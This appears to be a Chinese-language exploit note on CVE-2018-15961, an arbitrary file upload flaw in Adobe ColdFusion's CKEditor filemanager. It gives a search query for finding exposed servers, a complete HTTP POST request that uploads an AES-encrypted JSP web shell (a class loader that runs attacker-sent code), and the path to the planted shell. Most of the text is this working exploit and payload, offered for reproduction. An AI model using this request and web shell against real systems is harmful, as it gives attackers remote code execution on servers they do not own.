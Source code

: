 # Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

```
Adobe ColdFusion 
```

## 网络测绘

```
app="Adobe-ColdFusion" 
```

## 漏洞复现

产品官网

![img](images/202202102009930.png)

发送数据包上传任意文件

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```

![img](images/202202102009943.png)

再访问路径 **/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp**

![img](images/202202102009019.png)